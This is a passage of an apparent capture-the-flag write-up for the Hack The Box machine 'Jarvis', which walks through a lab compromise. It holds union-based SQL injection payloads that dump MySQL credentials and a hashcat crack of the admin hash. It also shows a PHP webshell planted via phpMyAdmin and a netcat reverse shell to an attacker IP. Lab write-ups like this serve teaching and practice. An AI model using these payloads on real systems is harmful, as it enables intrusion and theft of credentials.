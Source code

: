 	-1+UNION+SELECT+1,group_concat("column:",column_name,"\n"),3,4,5,6,7+FROM+information_schema.columns+WHERE+table_name='room'
	```
	![]({{ page.img_path }}Pasted%20image%2020220915175048.png)
	```
	Database: mysql
	Table: user
	[2 Useful Columns]
	User
	Password
	```
10. Dump entries from `user` table from `mysql` database
	```
	# Payload
	-1+UNION+SELECT+1,group_concat(User,':',Password,'\n'),3,4,5,6,7+FROM+mysql.user 
	```
	![]({{ page.img_path }}Pasted%20image%2020220915175000.png)
	```
	DBadmin:*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
	```

## Crack Hash
1. Identify hash w/ [name that hash](https://nth.skerritt.blog)
	![]({{ page.img_path }}Pasted%20image%2020220915020643.png)
2. Crack hash w/ `hashcat`
	```
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/loot]
	└─# hashcat -a 0 -m 300 '2D2B7A5E4E637B8FBA1D17F40318F277D29964D0' /usr/share/wordlists/rockyou.txt --show
	2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou
	```
	- `DBadmin:imissyou`

## TCP/80 (HTTP) - SQLi2RCE, Insert Webshell w/ phpmyadmin 
1. Successfully login to `phpmyadmin` w/  `DBadmin:imissyou`
2. Proceed to `hotel -> SQL -> Insert Webshell`
	```
	SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
	```
	![]({{ page.img_path }}Pasted%20image%2020220915022913.png)
3. Test `http://jarvis.htb/shell.php`
	```
	# Payload
	?cmd=id;whoami
	```
	![]({{ page.img_path }}Pasted%20image%2020220915023047.png)
4. Invoke reverse shell
	```
	┌──(root💀kali)-[~/htb/jarvis/10.10.10.143/loot]
	└─# curl 'http://10.10.10.143/shell.php?cmd=nc+10.10.14.24+4444+-e+/bin/bash'
	```
	![]({{ page.img_path }}Pasted%20image%2020220915023349.png)
5. Demo - Insert webshell & RCE
	![](vmware_dYXFsAlOsB.mp4)